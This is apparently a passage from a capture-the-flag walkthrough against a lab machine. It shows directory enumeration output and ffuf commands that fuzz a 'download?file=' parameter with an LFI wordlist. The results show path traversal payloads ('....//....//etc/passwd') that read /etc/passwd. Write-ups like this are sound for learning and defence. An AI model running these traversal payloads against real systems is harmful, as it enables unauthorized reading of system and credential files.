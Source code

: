```bash
===============================================================
/assets               (Status: 301) [Size: 178] [--> http://10.10.11.212/assets/]
/forms                (Status: 301) [Size: 178] [--> http://10.10.11.212/forms/]
/.                    (Status: 200) [Size: 23418]
/download.php         (Status: 200) [Size: 11363570]
/download             (Status: 200) [Size: 11363570]
Progress: 86006 / 86008 (100.00%)
===============================================================
Finished
===============================================================
```


## Fuzzing

```bash
$ ffuf -u http://10.10.11.212/download?file=FUZZ -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.212/download?file=FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
..
..
```

better to skip for 0 bytes responses:

```bash
$ ffuf -u http://10.10.11.212/download?file=FUZZ -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 0
..
..
..
....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 53ms]
....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 56ms]
....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 61ms]
....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 61ms]
:: Progress: [920/920] :: Job [1/1] :: 873 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```
